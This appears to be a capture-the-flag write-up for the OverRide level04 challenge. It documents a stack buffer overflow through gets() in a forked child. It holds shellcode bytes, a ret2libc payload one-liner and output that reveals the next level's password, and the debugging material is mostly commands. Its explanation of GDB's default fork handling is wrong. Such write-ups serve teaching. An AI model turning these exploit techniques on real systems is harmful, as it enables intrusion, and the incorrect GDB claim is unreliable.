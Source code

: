 

```
level04@OverRide:~$ ./level04
Give me some shellcode, k
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
child is exiting...
```
i noticed gets() which is vulnurable to beffetOverflow
```
run

=> 0x080486d6 <+14>:	call   0x8048550 <fork@plt>
   0x080486db <+19>:	mov    %eax,0xac(%esp)
   
(gdb) ni
0x080486db in main ()
(gdb) Give me some shellcode, k   
   
```
as u see the main parent process jumps directly to the prompt

In GDB, ptrace is used to monitor and control the execution of the program being debugged. 
GDB uses ptrace to set breakpoints, read and write memory, and control the execution of the program.

When ptrace() is called, it allows the parent process to observe and control the execution of the child process.

When you start GDB, it attaches to the original process and suspends its execution.
`When you issue the "run" command, GDB uses the "fork" system call to create a new process that runs the program being debugged.`
The new process is identical to the original process, except that it is running in a different address space.

Once the new process is created, GDB uses ptrace to control its execution.

In the case of gdb, it calls fork() to create a child process, and then calls ptrace() on the child to observe and control its execution.
This allows gdb to pause the execution of the child process, inspect its memory and registers, set breakpoints, and other debugging operations.

One alternative to inferior command in GDB to trace the execution of forked child process is to use the set follow-fork-mode command.

`By default, GDB stops the parent process when it encounters a fork call, and allows you to continue debugging the child process.` 

The set follow-fork-mode command allows you to specify how GDB should handle the creation of a child process/forks.
You can set it to one of the following modes:

* parent: GDB will remain attached to the parent process after a fork, and will not automatically follow the child process.
* child: GDB will detach from the parent process and attach to the child process after a fork.
* ask: GDB will prompt you for which process to follow after a fork.


(gdb) set follow-fork-mode child
```
=> 0x80486d6 <main+14>:	call   0x8048550 <fork@plt>
   0x80486db <main+19>:	mov    %eax,0xac(%esp)
   
   
(gdb) i r
eax            0x0	0

so now we re dealing with a child process
```



=> 0x804875e <main+150>:	call   0x80484b0 <gets@plt>

```
(gdb) run <<< "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab"

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1709]
=> 0x6261616f

(gdb) i r $eip
eip            0x6261616f

➜  Desktop cyclic -l 0x6261616f
156

(gdb) run <<<$(python -c 'print "A" * 156 + "BBBB"')
Cannot access memory at address 0x42424242
```

```
(gdb)
=> 0x804875e <main+150>:	call   0x80484b0 <gets@plt>

(gdb) x/60wx $esp
0xffffd650:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd660:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd670:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd680:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd690:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6a0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6b0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6c0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6d0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6e0:	0x41414141	0x41414141	0x41414141	0x42424242

(gdb) p/d 0xffffd6ec - 0xffffd650
$2 = 156

```
this syntax with shellcode isn't working for me
`(python -c 'print "A" * 135 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\xff\xff\xd6\x50"[::-1]' ; cat) | ./level04`

ill try ret2libc
```
p system
$3 = {<text variable, no debug info>} 0xf7e6aed0 <system>

(gdb) info proc mappings
   0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
   
(gdb) find 0xf7e2c000, 0xf7fd0000, "/bin/sh"
0xf7f897ec   
```
```
level04@OverRide:~$ (python -c 'print "A" * 156 + "\xf7\xe6\xae\xd0"[::-1] + "AAAA" + "\xf7\xf8\x97\xec"[::-1]' ; cat) | ./level04
Give me some shellcode, k
pwd
/home/users/level04
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```


























